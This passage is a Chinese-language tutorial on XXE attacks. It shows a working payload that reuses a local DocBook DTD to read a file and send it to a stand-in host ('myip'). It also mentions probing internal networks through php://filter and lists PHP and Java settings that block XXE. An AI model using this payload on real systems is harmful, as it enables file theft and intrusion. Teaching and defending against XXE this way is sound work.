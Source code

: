 但是当两个参数不是同级，用另外一个标签去嵌套后，就能使用另一个参数实体



### XXE引用本地DTD

如果目标机器不允许请求外网DTD呢?

ubuntu系统自带/usr/share/yelp/dtd/docbookx.dtd，其中定义了很多参数实体并调用了它。如果我们重写一个参数实体（ISOamso）并引用它，该参数实体依旧在外部

```dtd
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
<message>1234</message>
```



php filter伪协议还支持http协议读文件，于是还能打个内网探测。

```
php://filter/convert.base64-encode/resource=http:// + ip
```



不同语言支持的协议不一样

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241106170129856.png)

libxml2.9.1及以后默认不解析外部实体，java中netdoc类似file协议



### XXE的防御

* php

```php
libxml_disable_entity_loader(true);
```

* java

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

.setFeature("http://apache.org/xml/features/disallow-doctype-decl",true);

.setFeature("http://xml.org/sax/features/external-general-entities",false)

.setFeature("http://xml.org/sax/features/external-parameter-entities",false);
```
